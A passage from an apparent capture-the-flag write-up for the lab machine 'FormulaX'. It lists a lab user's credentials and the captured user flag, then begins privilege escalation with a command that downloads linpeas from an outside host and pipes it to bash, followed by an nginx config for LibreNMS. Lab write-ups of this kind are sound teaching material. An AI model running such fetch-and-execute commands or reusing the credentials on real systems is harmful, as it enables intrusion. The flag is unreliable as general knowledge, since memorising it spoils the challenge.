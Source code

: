 > Creds: `frank_dorky:manchesterunited`
{: .prompt-tip }

### User.txt

```bash
frank_dorky@formulax:~$ cat user.txt
f143cc488c556d06cca64663a0f5a71f
```

## Privilege Escalation (librenms)

Enumerate the system with linpeas:
```bash
frank_dorky@formulax:/tmp$ curl 10.10.16.75/linpeas.sh | bash | tee lp.log
```

In the processes we see an interesting one, frank is running `libreoffice` as `kai_relay` and with `sudo` permissions.

![Writeup-8.png](/assets/images/Machines/FormulaX/Writeup-8.png)

In the `nginx` module we see it's ran on port 3000:
```bash
-rw-r--r-- 1 root root 565 Jun 19  2023 /etc/nginx/conf.d/librenms.conf
server {
 listen      127.0.0.1:3000;
 server_name librenms.com;
 root        /opt/librenms/html;
 index       index.php;
 charset utf-8;
 gzip on;
 gzip_types text/css application/javascript text/javascript application/x-javascript image/svg+xml text/plain text/xsd text/xsl text/xml image/x-icon;
 location / {
  try_files $uri $uri/ /index.php?$query_string;
 }
 location ~ [^/]\.php(/|$) {
  fastcgi_pass unix:/run/php-fpm-librenms.sock;
  fastcgi_split_path_info ^(.+\.php)(/.+)$;
  include fastcgi.conf;
 }
 location ~ /\.(?!well-known).* {
  deny all;
 }
}
```
